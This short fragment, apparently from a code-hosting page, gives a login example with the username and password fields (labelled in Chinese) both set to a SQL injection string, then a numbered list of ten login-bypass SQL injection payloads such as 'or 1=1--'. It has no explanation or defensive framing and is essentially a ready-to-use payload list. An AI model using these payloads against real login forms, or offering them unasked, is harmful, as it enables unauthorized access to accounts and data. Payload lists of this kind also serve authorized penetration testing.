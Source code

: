 ```
用户名:"or "a"="a
密码:"or "a"="a
```

 1. "or "a"="a
 2.  '.).or.('.a.'='.a 
 3. or 1=1--
 4. 'or 1=1--
 5. a'or' 1=1--
 6. "or 1=1--
 7. 'or.'a.'='a
 8. "or"="a'='a
 9. 'or''='
10. 'or'='or'
